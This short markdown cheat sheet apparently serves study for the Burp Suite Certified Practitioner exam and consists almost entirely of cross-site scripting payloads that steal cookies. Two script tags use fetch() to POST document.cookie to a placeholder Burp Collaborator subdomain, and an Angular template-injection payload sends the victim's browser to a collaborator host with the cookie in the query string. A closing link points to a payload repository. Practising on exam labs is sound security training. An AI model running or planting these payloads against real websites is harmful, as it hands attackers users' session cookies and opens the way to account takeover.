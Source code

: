 


1. Steal cookie from any user

```html
<script>
fetch(‘https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net’, {method: ‘POST’,mode: ‘no-cors’,body:document.cookie});
</script>

```

2. Steal cookie exploit server


```html
<script>
fetch(‘https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net’, {method: ‘POST’,mode: ‘no-cors’,body:document.cookie});
</script>

```

3. Angular XSS cookie stealer

```html
{{$on.constructor('document.location="https://COLLABORATOR.com?c="+document.cookie')()}}

```

4. Misc payloads
	- https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study 
